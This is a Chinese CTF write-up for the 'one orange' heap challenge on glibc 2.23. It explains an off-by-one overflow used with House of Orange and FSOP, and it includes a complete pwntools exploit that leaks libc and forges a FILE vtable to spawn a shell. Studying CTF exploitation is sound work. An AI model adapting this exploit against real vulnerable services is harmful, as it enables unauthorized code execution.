

# one orange 

*🍊*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.23-0ubuntu11.3|

## 解题思路

没做出来...看到off by one了，但是脑子里全是House of Einherjar，后来想到利用top_chunk，
但是就是没想到可以再利用一个可控制的堆块来控制top_chunk，明明kasio才刚用过这个技巧  
我还纳闷，只能溢出0xe8字节，但是伪造堆块就得消耗至少0x10个字节，没法写全file结构体啊！

除了off by one，剩下的就是House of Orange了，看看博客就能做

后来看了官方wp，可算看懂了，画了堆块示意图如下：



收获如下：

1. 在top_chunk被放入unsorted bin时，会产生2个0x10大小的堆块
2. 调试house of orange的时候可以用`watch *(_IO_FILE*)_IO_list_all`来关注FSOP是如何运行的，
毕竟最后一次malloc完成了很多操作，不方便观察
3. 对chunk做如下操作在这个版本是合法的：
  - `p = malloc(0x118)` -> long[35], size: 0x121
  - `p[-1] = 0x101; p[0x100 / 8] = 0x21`
  - `free(p); p[-1] = 0x1f1` now `p` in unsorted bin
  - `np = malloc(0x1e8)` -> long[61], size: 0x1f1; `p == np`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './orange'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20790)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(idx:int, size:int):
        sh.sendlineafter(b'4.', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())

    def deln(idx:int) -> int:
        sh.sendlineafter(b'4.', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'delete: ')
        return int(sh.recvline(), 16)

    def edit(idx:int, cont:bytes, overflow:bool=False):
        sh.sendlineafter(b'4.', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        if overflow:
            sh.sendafter(b'cont', cont)
        else:
            sh.sendlineafter(b'cont', cont)
        
    def show(idx:int) -> bytes:
        sh.sendlineafter(b'4.', b'4')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'tent:\n')
        return sh.recvuntil(b'1.')

    addn(1, 0x3d8)
    addn(2, 0x3d8)
    addn(3, 0x3d8) # prepare for page alignment

    # Step 1, construct heap layout
    addn(4, 0x1f8)
    addn(5, 0xe8)

    # Step 2, set size of chunk 4 from 0x201 to 0x2f1
    # overlapping chunk 5
    edit(3, b'0'*0x3d8 + b'\xf1', True)

    # Step 3, free chunk 4 to deceive top_chunk down to chunk 4
    heapBase = deln(4) - 0xbb0
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 4, shrink top_chunk to make top_chunk in control (editable in chunk 5)
    # top_chunk.size -= 0x210
    addn(4, 0x208)

    # Step 5, mod top_chunk size from 0x20251 to 0x251
    edit(5, p64(0) + p64(0x251))

    # Step 6, malloc a chunk larger than 0x251 to sweep old top_chunk into unsorted bin
    # now in chunk 5, fd contains libc
    addn(6, 0x300)
    val = show(5)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(val[0x10:0x16] + b'\0\0') - 0x58 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'leak libcBase: {hex(libcBase)}'))
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    system = libcBase + libc.symbols['system']

    file = FileStructure()
    file.flags = u64(b'/bin/sh\0')
    file._IO_read_ptr = 0x61
    file._IO_read_base = ioListAll - 0x10
    file._IO_write_ptr = 1
    file.vtable = heapBase + 0x10

    # Step 7, force file structure and set old top_chunk size from 0x231 to 0x61
    # in this case, old top_chunk falls in small_bin
    # and force vtable by the way
    edit(5, bytes(file))
    edit(1, p64(0)*3 + p64(system))

    # Step 8, malloc a chunk larger than 0x60 to trigger FSOP
    addn(7, 0x100)

    sh.clean()
    sh.interactive()
```

## 参考

[House of Orange](https://www.cnblogs.com/ZIKH26/articles/16712469.html)
